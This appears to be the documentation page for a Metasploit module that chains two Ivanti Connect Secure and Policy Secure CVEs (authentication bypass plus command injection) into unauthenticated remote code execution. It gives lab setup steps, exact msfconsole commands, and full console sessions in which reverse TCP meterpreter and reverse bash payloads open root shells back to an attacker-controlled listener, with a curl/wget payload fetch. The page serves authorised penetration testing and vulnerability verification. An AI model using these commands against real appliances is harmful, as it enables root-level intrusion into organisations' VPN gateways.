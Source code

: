 ## Vulnerable Application
This module chains an authentication bypass vulnerability (CVE-2023-46805) and a command injection
vulnerability (CVE-2024-21887) to exploit vulnerable instances of either Ivanti Connect Secure or Ivanti
Policy Secure, to achieve unauthenticated remote code execution. All currently supported versions 9.x and
22.x prior to the vendor mitigation are vulnerable. It is unknown if unsupported versions 8.x and below are
also vulnerable.

## Testing
To test we used Ivanti Connect Secure version 22.3R1 (build 1647), deployed as a virtual appliance for HyperV. The
below steps are for HyperV, but it should be very similar to install on VMWare.

* Signup for a trial to download the file `ps-ics-hyper-v-isa-v-22.3r1.0-b1647-package.zip`
* From this ZIP file, extract the file `ISA-V-HYPERV-ICS-22.3R1-1647.1-VT-hyperv.vhdx`
* Create a new VM in HyperV and specify the VHDX file as the hard drives media.
* Boot the VM and follow the console instructions to install the product.
* After installation completes, you wil have created an admin account and password. You can log into the admin
web interface by visiting https://<TARGET_IP_ADDRESS>/admin in your web browser if you want.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
6. `check`
7. `exploit`

## Scenarios
To support a broad set of available payloads, we support both a Linux target and a Unix Target. This allows for native
Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Linux Target

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set RHOST 192.168.86.111
RHOST => 192.168.86.111
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set target 0
target => 0
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      DbFmtsbLwkUU     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > check
[+] 192.168.86.111:443 - The target is vulnerable. IVE-OS 22.3R1 (1647)
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. IVE-OS 22.3R1 (1647)
[*] Sending stage (3045380 bytes) to 192.168.86.111
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.111:27576) at 2024-01-17 10:16:52 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.111
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
meterpreter >
```

### Unix Target

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2023_46805):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > check
[+] 192.168.86.111:443 - The target is vulnerable. IVE-OS 22.3R1 (1647)
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. IVE-OS 22.3R1 (1647)
[*] Command shell session 2 opened (192.168.86.42:4444 -> 192.168.86.111:27582) at 2024-01-17 10:19:19 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux localhost2 4.15.18.34-production #1 SMP Fri Jun 17 13:08:47 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
pwd
/data/var/cores
cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
exit
[*] 192.168.86.111 - Command shell session 2 closed.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2023_46805) >
```

